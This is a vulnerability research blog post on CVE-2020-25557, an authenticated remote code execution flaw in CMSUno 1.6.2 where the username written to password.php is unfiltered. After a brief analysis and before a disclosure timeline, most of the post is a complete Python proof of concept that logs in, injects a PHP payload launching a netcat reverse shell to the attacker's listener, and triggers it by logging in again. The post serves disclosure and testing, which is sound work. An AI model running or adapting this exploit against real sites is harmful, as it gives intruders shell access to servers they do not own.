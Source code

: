 ```yaml
---
title: CMSUno 1.6.2 | RCE [Authenticated] (password.php) | CVE-2020-25557
author: Fatih Çelik
date: 2020-09-30 11:33:00 +0800
categories: [Vulnerability Research]
tags: [vulnerability research]
math: true
mermaid: true
---
```


**Vendor**: https://github.com/boiteasite/cmsuno/

**Version**: 1.6.2Vulnerability: Code Injection

**CVE**: CVE-2020-25557

**Exploit-DB**: https://www.exploit-db.com/exploits/49031

## Analysis

If you read my other blog [post](https://fatihhcelik.github.io/posts/CMSUno-1.6.2-RCE-Authenticated-(config.php)-CVE-2020-25538/) about CMSuno, this vulnerability will be familiar to you because the problem is the same. So I will not go into much detail in this article. The problem here is when you change your username and password your username and password will go to the password.php file without any filtering like below.

![](/photos/cmsuno-7.png)

This is the content of the password.php file.

![](/photos/cmsuno-8.png)

While you are changing your password you can inject PHP code into the $user parameter. After that, when you log in to the application your malicious PHP code will be run.

![](/photos/cmsuno-9.png)

## Exploit

I wrote the PoC for this vulnerability. You can use my PoC code below to test your version is vulnerable or not. Don't forget the get backup of your password.php file.

```python
import requests
from bs4 import BeautifulSoup
import lxml
import json
from time import sleep

username = input("username: ")
password = input("password: ")
root_url = input("Root URL: http://192.168.1.9/cmsuno --> ")
listener_ip = input("Your ip: ")
listener_port = input("Your port for reverse shell: ")

login_url = root_url + "/uno.php"
vulnerable_url = root_url + "/uno/central.php"

session = requests.Session()
request = session.get(login_url)

# Get the unox value
soup = BeautifulSoup(request.text,"lxml")
unox = soup.find("input",{'name':'unox'})['value']

# Login 

body = {"unox":unox,"user":username,"pass":password}
session.post(login_url, data=body)

# Get the second unox value

request = session.get(login_url)
text = request.text
soup = BeautifulSoup(text,"lxml")
script = soup.findAll('script')[1].string
data = script.split("Unox='")[1]
unox = data.split("',")[0]

# Exploit

header = {
"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:80.0) Gecko/20100101 Firefox/80.0",
"Accept":"*/",
"Accept-Encoding": "gzip, deflate",
"X-Requested-With": "XMLHttpRequest",
"Origin": login_url,
"Referer": login_url
}

payload = 'en";system(\'nc.traditional {} {} -e /bin/bash\');?>// '.format(listener_ip,listener_port)
body = 'action=sauvePass&unox={}&user0={}&pass0={}&user={}&pass=654321&lang=en'.format(unox,username,password,payload)
session.post(vulnerable_url, data=(json.dumps(body)).replace("\\","")[1:-1],headers=header)

# Login to trigger password.php

# Get the unox value

session1 = requests.Session()
request1 = session1.get(login_url)
soup = BeautifulSoup(request1.text,"lxml")
unox = soup.find("input",{'name':'unox'})['value']

# Login
sleep(3)
body = {"unox":unox,"user":username,"pass":password}
session1.post(login_url, data=body)
```

![](/photos/cmsuno-10.png)

## Disclosure Timeline

12 September 2020 - First Contact

29 September 2020 - Released CMSUno Version 1.6.3

30 September 2020 - Responsible Disclosure
